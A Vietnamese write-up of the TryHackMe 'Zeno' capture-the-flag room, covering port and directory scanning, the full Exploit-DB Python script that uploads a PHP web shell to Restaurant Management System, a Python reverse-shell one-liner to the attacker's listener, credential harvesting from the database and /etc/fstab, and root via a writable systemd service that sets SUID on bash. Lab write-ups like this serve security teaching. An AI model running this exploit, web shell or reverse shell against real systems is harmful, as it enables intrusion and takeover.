

# TryHackMe - Zeno - Medium


> **Mức độ:** Trung bình 
> **Thời gian:** 60 phút 
> **Url:** https://tryhackme.com/room/zeno

---
## Mục lục

- [1. Reconnaissance](#reconnaissance)
- [2. Enumeration](#enumeration)
- [3. Initial Access](#initial-access)
- [4. Privilege Escalation](#privilege-escalation)
- [6. Conclusion](#conclusion)

## Reconnaissance 

### Quét các cổng phổ biến 

``` Bash
nmap -sSVC -Pn 10.48.148.49
```

Đầu ra:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-05 10:19 -0400
Nmap scan report for 10.48.148.49
Host is up (0.14s latency).
Not shown: 983 filtered tcp ports (no-response), 16 filtered tcp ports (host-prohibited)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
|_  256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.48 seconds
```

- Chỉ phát hiện cổng 22 cho dịch vụ SSH 

### Quét tất cả các cổng 

```Bash
nmap -sSV -p- -Pn -T4 10.48.148.49
```

Đầu ra:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-05 10:19 -0400
Nmap scan report for 10.48.148.49
Host is up (0.12s latency).
Not shown: 65319 filtered tcp ports (no-response), 214 filtered tcp ports (host-prohibited)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 217.45 seconds
```

- Phát hiện thêm cổng 12340 cho dịch vụ web 

### Kết quả 

| Port  | Service | Version                                  |
| ----- | ------- | ---------------------------------------- |
| 22    | SSH     | OpenSSH 7.4 (protocol 2.0)               |
| 12340 | HTTP    | Apache httpd 2.4.6 ((CentOS) PHP/5.4.16) |

>[!NOTE]
>Cần phân tích dịch vụ web trên cổng 12340 để kiểm tra các lỗ hổng 

---
## Enumeration 

### Directory Enumeration (Feroxbuster)

```Bash
feroxbuster -u http://10.48.148.49:12340/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -t 100 -x php,txt,html -d 2 -C 404
```

Kết quả:

```
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.48.148.49:12340/
 🚩  In-Scope Url          │ 10.48.148.49
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt, html]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       24w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        8l       22w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       14l      108w     3897c http://10.48.148.49:12340/
200      GET       14l      108w     3897c http://10.48.148.49:12340/index.html
301      GET        7l       20w      238c http://10.48.148.49:12340/rms => http://10.48.148.49:12340/rms/
301      GET        7l       20w      244c http://10.48.148.49:12340/rms/admin => http://10.48.148.49:12340/rms/admin/
301      GET        7l       20w      245c http://10.48.148.49:12340/rms/images => http://10.48.148.49:12340/rms/images/
302      GET        0l        0w        0c http://10.48.148.49:12340/rms/admin/index.php => access-denied.php
302      GET        0l        0w        0c http://10.48.148.49:12340/rms/admin/ => access-denied.php
302      GET        0l        0w        0c http://10.48.148.49:12340/rms/member-index.php => access-denied.php
200      GET      118l      416w     5982c http://10.48.148.49:12340/rms/index.php
200      GET       62l      248w     3808c http://10.48.148.49:12340/rms/foodzone.php
200      GET      114l      348w     5594c http://10.48.148.49:12340/rms/login-register.php
302      GET        0l        0w        0c http://10.48.148.49:12340/rms/cart.php => access-denied.php
200      GET       34l      100w     1371c http://10.48.148.49:12340/rms/gallery.php
301      GET        7l       20w      242c http://10.48.148.49:12340/rms/swf => http://10.48.148.49:12340/rms/swf/
301      GET        7l       20w      244c http://10.48.148.49:12340/rms/fonts => http://10.48.148.49:12340/rms/fonts/
302      GET        0l        0w        0c http://10.48.148.49:12340/rms/login-exec.php => member-index.php
302      GET        0l        0w        0c http://10.48.148.49:12340/rms/register-exec.php => register-failed.php
302      GET        0l        0w        0c http://10.48.148.49:12340/rms/auth.php => access-denied.php
301      GET        7l       20w      250c http://10.48.148.49:12340/rms/stylesheets => http://10.48.148.49:12340/rms/stylesheets/
301      GET        7l       20w      242c http://10.48.148.49:12340/rms/css => http://10.48.148.49:12340/rms/css/
200      GET        6l       36w      415c http://10.48.148.49:12340/rms/footer.php
200      GET       43l      223w     2212c http://10.48.148.49:12340/rms/aboutus.php
200      GET       52l      178w     2417c http://10.48.148.49:12340/rms/specialdeals.php
200      GET      236l      332w     3527c http://10.48.148.49:12340/rms/stylesheets/user_styles.css
200      GET       50l      136w     1986c http://10.48.148.49:12340/rms/contactus.php
200      GET       38l      124w     1551c http://10.48.148.49:12340/rms/logout.php
200      GET      459l     1019w    11321c http://10.48.148.49:12340/rms/validation/user.js
200      GET        5l      185w     8868c http://10.48.148.49:12340/rms/swf/swfobject.js
200      GET      142l      981w    66291c http://10.48.148.49:12340/rms/images/pizza-inn-map4-mombasa-road.png
302      GET        0l        0w        0c http://10.48.148.49:12340/rms/ratings.php => access-denied.php
302      GET        0l        0w        0c http://10.48.148.49:12340/rms/tables.php => access-denied.php
301      GET        7l       20w      249c http://10.48.148.49:12340/rms/connection => http://10.48.148.49:12340/rms/connection/
301      GET        7l       20w      249c http://10.48.148.49:12340/rms/validation => http://10.48.148.49:12340/rms/validation/
302      GET        0l        0w        0c http://10.48.148.49:12340/rms/inbox.php => access-denied.php
200      GET       36l      135w     1640c http://10.48.148.49:12340/rms/access-denied.php
200      GET       48l      147w     2167c http://10.48.148.49:12340/rms/password-reset.php
[####################] - 4m    212820/212820  0s      found:36      errors:48     
[####################] - 3m    106336/106336  606/s   http://10.48.148.49:12340/ 
[####################] - 3m    106336/106336  628/s   http://10.48.148.49:12340/rms/ 
```

> [!NOTE]
> Quét thư mục ẩn phát hiện thư mục có tên rms 
> rms là tên viết tắt của dịch vụ có tên Restaurant Management System dịch vụ quản lý nhà hàng 

---
## Initial Access

>[!NOTE]
> Qua tìm kiếm thì dịch vụ RMS tồn tại lỗ hổng RCE 
> Mã khai thác: https://www.exploit-db.com/exploits/47520
> Mã khai thác sẽ thực hiện chèn 1 PHP Reverse Shell vào hệ thống mục tiêu 
> Từ đó có thể thực thi mã qua tham số cmd 
> Có thể tùy biến để xâm nhập hệ thông 

### Mã khai thác 

```Python
# Exploit Title: Restaurant Management System 1.0  - Remote Code Execution
# Date: 2019-10-16
# Exploit Author: Ibad Shah
# Vendor Homepage: https://www.sourcecodester.com/users/lewa
# Software Link: https://www.sourcecodester.com/php/11815/restaurant-management-system.html
# Version: N/A
# Tested on: Apache 2.4.41

#!/usr/bin/python

import requests
import sys

print ("""
    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|


""")
print ("Credits : All InfoSec (Raja Ji's) Group")
url = sys.argv[1]

if len(sys.argv[1]) < 8:
	print("[+] Usage : python rms-rce.py http://localhost:80/")
	exit()
	
print ("[+] Restaurant Management System Exploit, Uploading Shell")

target = url+"admin/foods-exec.php"


headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Length": "327",
    "Content-Type": "multipart/form-data;boundary=---------------------------191691572411478",
    "Connection": "close",
	"Referer": "http://localhost:8081/rms/admin/foods.php",
	"Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
	"Upgrade-Insecure-Requests": "1"

}

data = """

-----------------------------191691572411478
Content-Disposition: form-data; name="photo"; filename="reverse-shell.php"
Content-Type: text/html

<?php echo shell_exec($_GET["cmd"]); ?>
-----------------------------191691572411478
Content-Disposition: form-data; name="Submit"

Add
-----------------------------191691572411478--
"""
r = requests.post(target,verify=False, headers=headers,data=data)


print("[+] Shell Uploaded. Please check the URL :"+url+"images/reverse-shell.php")      
```

### Khai thác 

```Bash 
python3 47520.py http://10.48.148.49:12340/rms/
```

```
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |

    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|


Credits : All InfoSec (Raja Ji's) Group
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL :http://10.48.148.49:12340/rms/images/reverse-shell.php
```

### Thực thi lệnh 

#### Kiểm tra thực thi mã 


Có thể thực thi mã 

#### Xâm nhập 

Mở cổng lắng nghe kết nối 
``` Bash
nc -lnvp 4444
```

Gửi yêu cầu với lệnh để tạo reverse shell 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.156.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.156.4] from (UNKNOWN) [10.48.148.49] 39550
bash-4.2$ whoami
whoami
apache
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

> Liệt kê thông tin phát hiện người dùng edward trên hệ thống 

---
## Privilege Escalation

### Leo thang lên người dùng edward

> Dùng linpeas.sh để quét phát hiện:
> - File /var/www/html/rms/connection/config.php chứa thoong tin xác thực CSDL MySQL
> - File /etc/fstab cũng chứa thông tin xác thực

#### Cơ sở dữ liệu MySQL 

```
bash-4.2$ mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 59
Server version: 5.5.68-MariaDB MariaDB Server

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| dbrms              |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.01 sec)

MariaDB [(none)]> use dbrms
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [dbrms]> show tables;
+----------------------+
| Tables_in_dbrms      |
+----------------------+
| billing_details      |
| cart_details         |
| categories           |
| currencies           |
| food_details         |
| members              |
| messages             |
| orders_details       |
| partyhalls           |
| pizza_admin          |
| polls_details        |
| quantities           |
| questions            |
| ratings              |
| reservations_details |
| specials             |
| staff                |
| tables               |
| timezones            |
| users                |
+----------------------+
20 rows in set (0.00 sec)

MariaDB [dbrms]> select * from users;
Empty set (0.00 sec)

MariaDB [dbrms]> select * from members;
+-----------+-----------+----------+--------------------------+----------------------------------+-------------+----------------------------------+
| member_id | firstname | lastname | login                    | passwd                           | question_id | answer                           |
+-----------+-----------+----------+--------------------------+----------------------------------+-------------+----------------------------------+
|        15 | Stephen   | Omolewa  | omolewastephen@gmail.com | 81dc9bdb52d04dc20036dbd8313ed055 |           9 | 51977f38bb3afdf634dd8162c7a33691 |
|        16 | John      | Smith    | jsmith@sample.com        | 1254737c076cf867dc53d60a0364f38e |           8 | 9f2780ee8346cc83b212ff038fcdb45a |
|        17 | edward    | zeno     | edward@zeno.com          | 6f72ea079fd65aff33a67a3f3618b89c |           8 | 6f72ea079fd65aff33a67a3f3618b89c |
|        18 |           |          |                          | d41d8cd98f00b204e9800998ecf8427e |           0 | d41d8cd98f00b204e9800998ecf8427e |
|        19 | test      | test     | test@example.com         | e10adc3949ba59abbe56e057f20f883e |           8 | 098f6bcd4621d373cade4e832627b4f6 |
+-----------+-----------+----------+--------------------------+----------------------------------+-------------+----------------------------------+
5 rows in set (0.00 sec)

MariaDB [dbrms]> exit
Bye

```

> Thu được Hash MD5 của 3 tài khoản nhưng khi crack tài khoản edward không crack thành công
> Thu được email của edward `edward@zeno.com`

#### File cấu hình  /etc/fstab 

```
bash-4.2$ cat /etc/fstab

#
# /etc/fstab
# Created by anaconda on Tue Jun  8 23:56:31 2021
#
# Accessible filesystems, by reference, are maintained under '/dev/disk'
# See man pages fstab(5), findfs(8), mount(8) and/or blkid(8) for more info
#
/dev/mapper/centos-root /       xfs     defaults        0 0
UUID=507d63a9-d8cc-401c-a660-bd57acfd41b2       /boot   xfs     defaults        0 0
/dev/mapper/centos-swap swap    swap    defaults        0 0
#//10.10.10.10/secret-share     /mnt/secret-share       cifs    _netdev,vers=3.0,ro,username=zeno,password=FrobjoodAdkoonceanJa,domain=localdomain,soft 0 0

```

> Thu được thông tin xác thực của người dùng zeno `
> Dựa vào email của edward đã thu được từ CSDL thì đây có thể là email của người dùng edward 
#### Leo thang 

> Sử dụng thông tin xác thực thu được từ file /etc/fstab

```
bash-4.2$ su edward
Password: 
[edward@zeno tmp]$ whoami
edward
[edward@zeno tmp]$ id
uid=1000(edward) gid=1000(edward) groups=1000(edward) context=system_u:system_r:httpd_t:s0
```

> Đọc User Flag

```
[edward@zeno tmp]$ cd ~     
[edward@zeno ~]$ ls -al
total 20
drwxr-xr-x. 3 root root   127 Sep 21  2021 .
drwxr-xr-x. 3 root root    20 Jul 26  2021 ..
lrwxrwxrwx. 1 root root     9 Jul 26  2021 .bash_history -> /dev/null
-rw-r--r--. 1 root root    18 Apr  1  2020 .bash_logout
-rw-r--r--. 1 root root   193 Apr  1  2020 .bash_profile
-rw-r--r--. 1 root root   231 Apr  1  2020 .bashrc
drwxr-xr-x. 2 root root    29 Sep 21  2021 .ssh
-rw-------. 1 root root   699 Jul 26  2021 .viminfo
-rw-r-----. 1 root edward  38 Jul 26  2021 user.txt
[edward@zeno ~]$ cat user.txt 
THM{070cab2c9dc622e5d25c0709f6cb0510}
```
### Leo thang lên root 

> Liệt kê các lệnh có thể chạy với sudo 

```Bash
[edward@zeno ~]$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
```
Edward có thể khởi động lại hệ thống 

> Tìm kiếm các file mà edward có quyền ghi 

```Bash
find / -type f -writable 2>/dev/null
```
Phát hiện ra File rất đáng chú ý /etc/systemd/system/zeno-monitoring.service

> Phân tích file 
```Bash
[edward@zeno ~]$ ls -al /etc/systemd/system/zeno-monitoring.service
-rw-rw-rw-. 1 root root 141 Sep 21  2021 /etc/systemd/system/zeno-monitoring.service
[edward@zeno ~]$ systemctl status zeno-monitoring
● zeno-monitoring.service - Zeno monitoring
   Loaded: loaded (/etc/systemd/system/zeno-monitoring.service; enabled; vendor preset: disabled)
   Active: failed (Result: exit-code) since Mon 2026-10-05 16:17:35 CEST; 2h 0min ago
  Process: 636 ExecStart=/root/zeno-monitoring.py (code=exited, status=1/FAILURE)
 Main PID: 636 (code=exited, status=1/FAILURE)
[edward@zeno ~]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBy=multi-user.target
```
edward có quyền ghi vào file , service chạy dưới quyền người dùng root 

> Chỉnh sửa file để khi khởi động lại /bin/bash có cờ SUID 
> Chỉnh sửa file bằng cat vì nano không có , vim báo lỗi backup 
```Bash 
[edward@zeno ~]$ cat << EOF > /etc/systemd/system/zeno-monitoring.service
> [Unit]
> Description=Zeno monitoring
> 
> [Service]
> Type=simple
> User=root
> ExecStart=/usr/bin/chmod +s /bin/bash
> 
> [Install]
> WantedBy=multi-user.target
> EOF
[edward@zeno ~]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/usr/bin/chmod +s /bin/bash

[Install]
WantedBy=multi-user.target
```

> Khởi dộng lại hệ thồng chwof khoảng hơn 1 phút trước khi kết nối lại
```Bash
sudo reboot
```

> Kết nối lại hệ thông qua SSH và thực thi lệnh `/bin/bash -p` (-p giữ đặc quyền cao) viwf có cờ SUID nên bash chạy với quyền root 
```
└─$ ssh edward@10.48.148.49
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
edward@10.48.148.49's password: 
Last login: Mon Oct  5 18:38:40 2026 from ip-192-168-156-4.ap-south-1.compute.internal
-bash-4.2$ /bin/bash -p
bash-4.2# id
uid=1000(edward) gid=1000(edward) euid=0(root) egid=0(root) groups=0(root),1000(edward) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
bash-4.2# whoami
root
```

> Đọc Root Flag 
```
bash-4.2# cd /root
bash-4.2# ls -al
total 60
dr-xr-x---.  3 root root   274 Sep 21  2021 .
dr-xr-xr-x. 17 root root   224 Jun  8  2021 ..
-rw-------.  1 root root  1537 Jun  8  2021 anaconda-ks.cfg
-rw-------.  1 root root 10666 Sep 23  2021 .bash_history
lrwxrwxrwx.  1 root root     9 Jul 26  2021 bash_history -> /dev/null
-rw-r--r--.  1 root root    18 Dec 29  2013 .bash_logout
-rw-r--r--.  1 root root   176 Dec 29  2013 .bash_profile
-rw-r--r--.  1 root root   176 Dec 29  2013 .bashrc
-rw-r--r--.  1 root root   100 Dec 29  2013 .cshrc
-rw-------.  1 root root  1026 Sep 21  2021 .mysql_history
drwxr-----.  3 root root    19 Jul 26  2021 .pki
-rw-r--r--.  1 root root    38 Jul 26  2021 root.txt
-rw-r--r--.  1 root root   129 Dec 29  2013 .tcshrc
-rw-------.  1 root root  6363 Sep 21  2021 .viminfo
-rw-r--r--.  1 root root     1 Sep 21  2021 zeno-monitoring.log
-rwxr-xr-x.  1 root root   358 Sep 21  2021 zeno-monitoring.py
bash-4.2# cat root.txt 
THM{b187ce4b85232599ca72708ebde71791}
```

---
## Conclusion

>[!NOTE]
>Thử thách này liên quan đến khai thác lỗ hổng RCE của dịch vụ web từ đó xâm nhập hệ thống 
>Leo thang đặc quyền qua 1 service người dùng thông thường có quyền chỉnh sửa file cấu hỉnh 
>
>Cách khắc phục:
>+ Vá lỗ hổng RCE 
>+ Chỉnh sửa quyền truy cập file cấu hình dịch vụ